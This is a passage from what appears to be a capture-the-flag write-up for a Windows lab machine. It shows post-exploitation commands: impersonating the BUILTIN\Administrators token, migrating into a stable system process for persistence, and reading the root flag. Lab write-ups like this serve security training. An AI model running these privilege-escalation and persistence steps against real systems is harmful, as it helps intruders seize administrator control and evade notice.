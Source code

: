 ```bash
impersonate_token "BUILTIN\\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

### Final Step: Root Flag

Before reading the root flag, let’s migrate to a stable system process for persistence. View running processes:

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Choose a stable process and migrate to it:

```bash
migrate <PID>
```

![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

#### Root Flag.txt

Once you have SYSTEM privileges, retrieve the root flag:

```powershell
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)



